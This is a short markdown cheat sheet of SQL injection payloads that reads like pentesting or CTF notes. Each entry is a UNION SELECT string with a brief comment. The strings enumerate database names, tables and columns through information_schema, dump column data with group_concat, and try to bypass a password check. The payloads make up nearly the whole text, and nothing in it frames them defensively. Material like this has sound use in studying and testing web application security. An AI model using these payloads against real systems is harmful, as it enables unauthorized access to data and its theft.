 ## Common attacks
Attacks:
- `' union select null, null, schema_name from information_schema.schemata-- -`  - This attack leaks all the dbs names
- `' union select null, null, table_name from information_schema.tables-- -`  - This attack leaks all the tables in the dbs
- `' union select null, null, column_name from information_schema.columns where table_name = "{table name}" and schema_table = "{dbs name}"-- -`  - This attack leaks all the columns from a specific table and a specific database
- `' union select null, null, group_concat(column1,0x3a,column2,0x3a,...) from {table name} where {condition}-- -`  - This one leaks all the data that the columns of a certain table contain
- `' union select 'anything' as password from {TABLE} where '1'='1'-- -` - This string is kind of interesting and may lead to a SQLi when you've nothing else to try in order to accomplish the attack
- 